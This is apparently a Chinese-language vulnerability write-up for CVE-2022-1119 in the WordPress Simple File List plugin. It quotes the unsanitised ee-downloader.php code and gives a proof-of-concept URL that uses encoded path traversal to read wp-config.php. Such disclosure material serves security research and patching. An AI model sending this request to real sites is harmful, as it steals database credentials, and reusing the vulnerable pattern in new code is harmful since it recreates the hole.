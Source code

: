 # WordPress Simple File List ee-downloader.php 任意文件读取漏洞 CVE-2022-1119

# WordPress Simple File List ee-downloader.php 任意文件读取漏洞 CVE-2022-1119

## 漏洞描述

WordPress Simple File List插件 ee-downloader.php文件存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的任意文件

## 漏洞影响

```
WordPress Simple File List < 3.2.8
```

## 插件名

Simple File List

https://downloads.wordpress.org/plugin/simple-file-list.3.2.17.zip

## 漏洞复现

存在漏洞的文件为 `wp-content/plugins/simple-file-list/includes/ee-downloader.php`

![image-20220706134725779](/images/202207061347857.png)

```php
<?php // Simple File List - ee-downloader.php - rev 1.19 - mitchellbennis@gmail.com

// Force File to Download
// This script is accessed via javascript on ee-download.php 

$eeFile =  filter_var($_GET['eeFile'], FILTER_SANITIZE_STRING, FILTER_FLAG_ENCODE_LOW);

if(is_readable($eeFile)) {

    header('Pragma: public'); // required
    header('Expires: 0'); // no cache
    header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
    header('Last-Modified: '. gmdate ('D, d M Y H:i:s', filemtime ($eeFile)) .' GMT');
    header('Cache-Control: private',false);
    header('Content-Type: ' . mime_content_type($eeFile) );
    header('Content-Disposition: attachment; filename="'. basename($eeFile) .'"');
    // header('Content-Transfer-Encoding: binary');
    header('Content-Length: '. filesize($eeFile)); // provide file size
    header('Connection: close');
    readfile($eeFile); // Start the download

}
?>
```

直接传参获取文件信息, 验证POC

```
/wp-content/plugins/simple-file-list/includes/ee-downloader.php?eeFile=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/wp-config.php
```

![image-20220706134750574](/images/202207061347645.png)

